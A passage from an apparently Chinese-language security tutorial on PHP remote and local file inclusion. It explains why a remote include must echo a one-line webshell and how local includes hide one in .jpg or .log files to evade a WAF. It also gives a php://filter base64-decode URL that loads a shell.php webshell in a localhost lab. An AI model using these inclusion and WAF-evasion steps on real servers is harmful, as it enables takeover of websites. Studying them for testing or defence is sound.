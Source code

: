-----

**思考：为什么远程包含需要将一句话echo出来** <br>

原因是远程服务器已经将文件解析了，远程包含只包含前端显示的代码，跟后缀没什么关系，<br>

所有这里为什么要echo一句话就是这个道理。<br>

相反，本地包含就不需要在前端显示，只要是符合php规范的代码就可以，<br>

本地包含一般使用jpg，log这样的后缀的一句话去绕waf。<br>

----

远程包含还可以配合伪协议去利用，<br>

将一句话进行base64加密，<br>

![images](/images/2019-03-19/ln07.png)

**注意：这里要是加密echo的一句话是不行的**

然后伪协议中base64就要换成解密的了`decode`

使用方法：<br>
```
http://localhost/include.php?file=php://filter/read=convert.base64-decode/resource=http://127.0.0.1/shell.php
```
![images](/images/2019-03-19/ln08.png)
